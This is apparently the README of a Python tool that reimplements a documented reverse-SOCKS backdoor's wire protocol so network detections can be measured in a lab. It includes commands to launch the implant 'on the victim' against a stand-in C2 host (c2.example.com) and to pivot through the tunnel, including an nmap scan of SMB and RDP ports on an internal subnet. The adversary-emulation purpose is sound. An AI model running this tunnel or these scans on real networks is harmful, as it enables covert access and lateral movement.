

# vipertunnel

A reverse SOCKS5 tunnel, reimplemented **faithfully on the wire** and
deliberately nowhere else, so that a network-side detection can be measured
against this family's traffic.

Python 3, standard library only, no install step.

## Why this exists, and what it is not

The original is the Python reverse-SOCKS backdoor InfoGuard Labs documented
in *Slithering Through the Noise* (2026-04-09). Only its **client** was ever
published; the server side was not. So the server here is written to a
derivation of the client's bytes rather than to a sample, and where the two
disagree the client is right — it is the artefact that was observed.

**This reproduces the wire and nothing else.** None of the published class
names, credentials or typos are here, because the published YARA rules key
on exactly those, and a file that trips a file-based rule gets quarantined by
the very endpoints it is supposed to run on. This is a network-layer
exercise; if you want to validate YARA too, that is a different artefact and
a different decision.

## The shape of it



- `client/` — the implant half, `supervise.py`, and `start-client.sh`
- `server/` — the counterpart the family never published, the operator
  dashboard, and `start-server.sh`
- `preflight/` — ask a proxy whether this can work, before deploying
- `tests/` — the wire, the supervisor and the dashboard
- `docs/` — everything below

## Running it

Two terminals.

```
# the server, on the host the implant can reach
sudo -E ./server/start-server.sh                   # KEEPALIVE=0 by default: cadence
KEEPALIVE=60 sudo -E ./server/start-server.sh      # one held connection instead
DASHBOARD=8787 sudo -E ./server/start-server.sh    # and an operator view on loopback

# the implant, on the victim
PROXY=127.0.0.1:3128 ./client/start-client.sh c2.example.com
```

Then drive traffic through the operator port, which speaks real RFC 1928:

```
curl --socks5 127.0.0.1:1080 http://10.0.0.5/
proxychains -q nmap -sT -Pn -p 445,3389 10.0.0.0/24
```

`PORT=443` is the default and worth keeping: the proxy allowlist you are
measuring through may permit `CONNECT` to 443 and nothing else, in which case
a different port measures the proxy instead of the tunnel. It needs root, or
pick a higher port knowing what you traded.

`--socks-user` / `--socks-password` put RFC 1929 credentials on the operator
port. Loopback keeps other hosts out; it does nothing about other local users
on the same box.

```
./run-tests.sh
```

## Where everything is written down

| Document | Answers |
|---|---|
| [docs/protocol.md](docs/protocol.md) | the dialect, byte for byte, and why an RFC 1928 client cannot talk to it |
| [docs/measurement.md](docs/measurement.md) | the keep-alive knob, why its effect is a step, the ledger, and what to expect of a periodicity detection |
| [docs/deployment.md](docs/deployment.md) | the proxy preflight and its three verdicts, the two proxy shapes, and whether Mythic helps |
| [docs/dashboard.md](docs/dashboard.md) | the operator view: what it shows, what it can change, and why it is out of band |
| [docs/provenance.md](docs/provenance.md) | who named the family and when, the four clusters, the infrastructure traits, the corroborated indicators, MITRE ATT&CK, and the reading list |

## Authorisation

This is adversary emulation for a detection measurement in a lab you own.
Running it anywhere else is somebody else's intrusion.
